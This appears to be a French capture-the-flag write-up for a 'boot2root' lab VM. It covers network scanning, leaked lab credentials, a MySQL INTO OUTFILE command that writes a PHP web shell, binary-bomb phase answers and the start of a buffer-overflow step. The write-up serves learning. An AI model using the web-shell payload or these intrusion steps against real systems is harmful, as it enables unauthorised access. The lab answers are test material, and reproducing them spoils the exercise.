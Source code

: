 Pour récuperer l'adresse IP de la VM on lance un nmap pour scanner le réseau
```bash
nmap -A 172.16.96.1/24
```

Quand nous lancon boot2root, la vm ouvre un port https.
Avec un dirbuster nous avous a trouver que le path /forum et /webmail exist.
Dans le forum nous trouvons des logs qui nous permette de leaker le mot de passe de lmezard:!q\]Ej?*5K5cy*AJ
Avec l'email de lmezard nous arrivons a nous connecter a sa boite mail ou un mail avec les identifiant root de mysql sont present root:Fg-'kKXBj87E:aJ$
Dans mysql nous pouvont ecrire dans le system avec un commande du style OUTFILE.
Nous pouvons trouver l'arborescence de mylittleforum sur son github. Finalement il semble que le dossier templates_c soit accessible en ecriture.
On peut upload un shell avec cette command.
SELECT "<?php system($_GET['cmd']) ?>" INTO OUTFILE "/var/www/forum/templates_c/shell.php"
nous pouvons telecharger les identifiant du ftp dans /home/LOOKATME
lmezard
G!@M6f4Eatau{sF"

Avec ces identifiant nous pouvont ensuite telecharger une tarball fun
Cette tarball contenait un dossier ft_fun qui conténer a son tour des fichier pcap.
Dans chaque fichier pcap il y avait un comment qui préciser l'order de ce fichier par rapport au autre. 
Une fois reconstituer ces fichier formée un code source C qui une fois compiler demander de hasher un mot de passe.
Un fois hasher, le resultat consituer le mot de passe de laurie.
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
Pour récuper le mot de passe de thor nous devons desarmorcer des bombe succésive.

Pour desamorcé la premiere phase il suffit de rentré la chaine
Public speaking is very easy.

Pour la deuxieme phase, il suffit juste de rentré une suite de nombre dont chaque element est le resultat de sa position+1 * le nombre precedent
La suite commence par 1

1 2 6 24 120 720

La troisieme phase est une fonction qui attend trois argument de type int, char, int.
Le premier int est une sousfonction qui compare le deuxieme est troisieme argument.
C'est une jump table.
Au total voici les solution:
0 q 777
1 b 214
2 b 755
3 k 251
4 o 160
5 t 458
6 v 780
7 b 524

Pour la quatrieme phase, il suffit de trouver le nombre qui quand on le rentre dans la fonction fibonacci le resultat est 55 en decimale.
Ce nombre est 9.

Pour la cinquieme phase, il faut reussit a traduire l'input saisie vers "giants" avec l'encodage suivant "isrveawhobpnutfg".
Equivalemnt a xlatb en assembler.
Le code fait juste un bitwise and sur les character. Il y a donc plusieur solution.

Pour la sixième phase, La bombe regarde d'abort si dans la sequence il n'y a pas de doublon est que les nombre sont entre 1-6.
En fonction des nombre il arrange une liste chainer dont les indice des noeuds sont egaux a ceux des nombre rentré.
Les noeuds de la link list sont comme suit:

struct Node {
	int number;
	int order;
	struct Node* next;
};

Il itere dans la suite pour voir les number sont en ordre décroissant. Si il le sont la bombe peux etres desamorcé ;).

0x804b26c <node1>:      0x000000fd      0x00000001      0x0804b260
0x804b260 <node2>:      0x000002d5      0x00000002      0x0804b254
0x804b254 <node3>:      0x0000012d      0x00000003      0x0804b248
0x804b248 <node4>:      0x000003e5      0x00000004      0x0804b23c
0x804b23c <node5>:      0x000000d4      0x00000005      0x0804b230
0x804b230 <node6>:      0x000001b0      0x00000006      0x00000000

4 2 6 3 1 5

A noter que dans cette exercise il y a une partie cacher avec des arbre binaire.
il suffit de rajouter austinpowers a la quatrieme phase

9 austinpowers 

Le dernier exercice utilise cette arbre binaire.
Pour desamorcé la phase cache il faut rentré le nombre 1001

                         36         
              /                      \
             8                        50
         /       \                /        \
        6         22             45         107
       / \       /  \           /  \       /   \
      1   7     20   35        40   47    99   1001

Apres plusieur essaie, et une visite sur le slack qui nous informe qu'il faut swap les deux dernier character, le mot de passe est le suivant:
thor
Publicspeakingisveryeasy.126241207201b2149opekmq426135

On a un fichier turtle qui donne des indications pour la librairie turtle de python.
On fait un script python pour nettoyer le fichier et on passe les instructions au module turtle.py.
Sa nous affiche un mot de passe "SLASH" sous forme de dessin que l'on doit hasher en md5
```bash
echo -n "SLASH" | md5
646da671ca01bb5d84dbb5fb2238dc8e
```

Nous pouvons voir que sur la machine l'ASLR est desactivé.
cat /proc/sys/kernel/randomize_va_space -> $00
La stack est executable.
readelf -a exploit_me | grep GNU_STACK -> RWE
Le programe copy argv[1] avec strcpy. Il suffit donc de faire un shellcode sans null byt\
e.
